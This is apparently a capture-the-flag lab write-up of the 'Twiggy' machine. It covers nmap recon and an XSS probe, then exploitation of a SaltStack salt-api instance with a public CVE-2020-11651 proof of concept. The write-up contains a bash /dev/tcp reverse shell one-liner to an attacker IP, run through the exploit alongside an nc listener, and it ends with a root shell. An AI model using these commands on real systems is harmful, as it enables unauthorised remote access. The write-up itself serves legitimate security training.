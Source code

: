 <h2>Recon</h2>

<h3>PortScanning</h3>

>command used:sudo nmap -A -T4 -p- -v

```
# Nmap 7.93 scan initiated Sat Jan  7 10:06:55 2023 as: nmap -A -v -T4 -p- -oN twiggy 192.168.242.62
Nmap scan report for 192.168.242.62
Host is up (0.44s latency).
Not shown: 65529 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 447d1a569b68aef53bf6381773165d75 (RSA)
|   256 1c789d838152f4b01d8e3203cba61893 (ECDSA)
|_  256 08c912d97b9898c8b3997a19822ea3ea (ED25519)
53/tcp   open  domain  NLnet Labs NSD
80/tcp   open  http    nginx 1.16.1
|_http-favicon: Unknown favicon MD5: 11FB4799192313DD5474A343D9CC0A17
|_http-title: Home | Mezzanine
| http-methods: 
|_  Supported Methods: GET HEAD OPTIONS
|_http-server-header: nginx/1.16.1
4505/tcp open  zmtp    ZeroMQ ZMTP 2.0
4506/tcp open  zmtp    ZeroMQ ZMTP 2.0
8000/tcp open  http    nginx 1.16.1
|_http-open-proxy: Proxy might be redirecting requests
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Site doesn't have a title (application/json).
|_http-server-header: nginx/1.16.1
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Linux 3.X|4.X|5.X (89%)
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4.4 cpe:/o:linux:linux_kernel:5.1
Aggressive OS guesses: Linux 3.10 - 3.12 (89%), Linux 4.4 (89%), Linux 4.9 (89%), Linux 3.10 - 3.16 (86%), Linux 3.10 - 4.11 (85%), Linux 3.11 - 4.1 (85%), Linux 3.2 - 4.9 (85%), Linux 5.1 (85%)
No exact OS matches for host (test conditions non-ideal).
Uptime guess: 0.003 days (since Sat Jan  7 10:08:04 2023)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=264 (Good luck!)
IP ID Sequence Generation: All zeros

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   698.61 ms 192.168.49.1
2   698.68 ms 192.168.242.62

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Jan  7 10:12:07 2023 -- 1 IP address (1 host up) scanned in 312.17 seconds
```
From the scan above we have 6 opened ports. Port 22 which runs ssh, port 53 which runs domain, port 80,8000 which runs http, port 4505,4506 which runs zmtp. Our enumeration today will be focused more on the ports that runs the http service (port 80 and port 8000)



<h2>Enumeration Port 80</h2>

Going to the webpage you should see something like this

![image](https://user-images.githubusercontent.com/67879936/222254767-cb6402c0-737b-448a-a6d9-9f6af0fcad7d.png)

I went ahead to test the search button for xss by using a simple payload

payload:```<img src=x onerror=alert(1)>```

![image](https://user-images.githubusercontent.com/67879936/222255982-60c0769f-1e21-4120-b7a4-e704f342f405.png)

oops, it didn't work. After looking around for a while I didn't find anything useful. On to the next port



<h2>Enumeration Port 8000</h2>

Going to the webpage should get you this

![image](https://user-images.githubusercontent.com/67879936/222257048-1c38e203-3f35-4b45-a6e7-ad8d25713c12.png)

lets check the header of the webpage using curl

>command:curl -v http://192.168.123.62:8000/

![image](https://user-images.githubusercontent.com/67879936/222257584-b91c54ab-2c73-48de-84e5-52e557a7fc2c.png)

Lets check if there's an exploit for this salt-api/3000-1

![image](https://user-images.githubusercontent.com/67879936/222259122-1681c469-29d1-469c-8d98-ac5a2ac8031b.png)

Yup, we sure found an exploit. Lets go ahead and exploit this vulnerability hehe



<h2>Exploitation</h2>

>Link to Exploit:https://github.com/jasperla/CVE-2020-11651-poc

To use this exploit, follow these steps

```
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/PG/pg_practice/Twiggy]
└─$ git clone https://github.com/jasperla/CVE-2020-11651-poc
Cloning into 'CVE-2020-11651-poc'...
remote: Enumerating objects: 30, done.
remote: Counting objects: 100% (30/30), done.
remote: Compressing objects: 100% (20/20), done.
remote: Total 30 (delta 12), reused 26 (delta 10), pack-reused 0
Receiving objects: 100% (30/30), 8.61 KiB | 881.00 KiB/s, done.
Resolving deltas: 100% (12/12), done.
                                                                                                                                                                        
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/PG/pg_practice/Twiggy]
└─$ cd CVE-2020-11651-poc 
                                                                                                                                                                        
┌──(bl4ck4non㉿bl4ck4non)-[~/…/PG/pg_practice/Twiggy/CVE-2020-11651-poc]
└─$ sudo pip3 install salt                            
[sudo] password for bl4ck4non: 
Requirement already satisfied: salt in /usr/local/lib/python3.11/dist-packages (3005.1)
Requirement already satisfied: Jinja2 in /usr/lib/python3/dist-packages (from salt) (3.0.3)
Requirement already satisfied: jmespath in /usr/local/lib/python3.11/dist-packages (from salt) (1.0.1)
Requirement already satisfied: msgpack!=0.5.5,>=0.5 in /usr/lib/python3/dist-packages (from salt) (1.0.3)
Requirement already satisfied: PyYAML in /usr/lib/python3/dist-packages (from salt) (6.0)
Requirement already satisfied: MarkupSafe in /usr/lib/python3/dist-packages (from salt) (2.1.1)
Requirement already satisfied: requests>=1.0.0 in /usr/lib/python3/dist-packages (from salt) (2.28.1)
Requirement already satisfied: distro>=1.0.1 in /usr/lib/python3/dist-packages (from salt) (1.8.0)
Requirement already satisfied: contextvars in /usr/local/lib/python3.11/dist-packages (from salt) (2.4)
Requirement already satisfied: psutil>=5.0.0 in /usr/local/lib/python3.11/dist-packages (from salt) (5.9.4)
Requirement already satisfied: pyzmq<=20.0.0 in /usr/local/lib/python3.11/dist-packages (from salt) (20.0.0)
Requirement already satisfied: pycryptodomex>=3.9.8 in /usr/lib/python3/dist-packages (from salt) (3.11.0)
Requirement already satisfied: immutables>=0.9 in /usr/local/lib/python3.11/dist-packages (from contextvars->salt) (0.19)
WARNING: Running pip as the 'root' user can result in broken permissions and conflicting behaviour with the system package manager. It is recommended to use a virtual environment instead: https://pip.pypa.io/warnings/venv
```
if you've done this. We can go ahead and run the exploit
bash -i >& /dev/tcp/192.168.49.123/80 0>&1
>command:python3 exploit.py --master 192.168.123.62  --exec "whoami"

![image](https://user-images.githubusercontent.com/67879936/222260340-916d298b-074f-4655-8d2c-207b0e3ae591.png)

Nice, we got the "whoami" command to run successfully. Now, lets use a reverse shell so we can get a shell back to our machine.

As usual we'll be using 2 different terminals

>payload:bash -i >& /dev/tcp/192.168.49.123/80 0>&1

>command terminal 1:python3 exploit.py --master 192.168.123.62  --exec "bash -i >& /dev/tcp/192.168.49.123/80 0>&1"

>command terminal 2:rlwrap nc -lvnp 80

![image](https://user-images.githubusercontent.com/67879936/222261192-359a5737-dffb-4837-9fa3-197015926e88.png)

![image](https://user-images.githubusercontent.com/67879936/222261310-1dc9bd58-fa0e-4d50-b908-2051ccaecd17.png)

Boom!!! We got a shell as root user

That will be all for today
<br> <br>
[Back To Home](../../index.md)






















































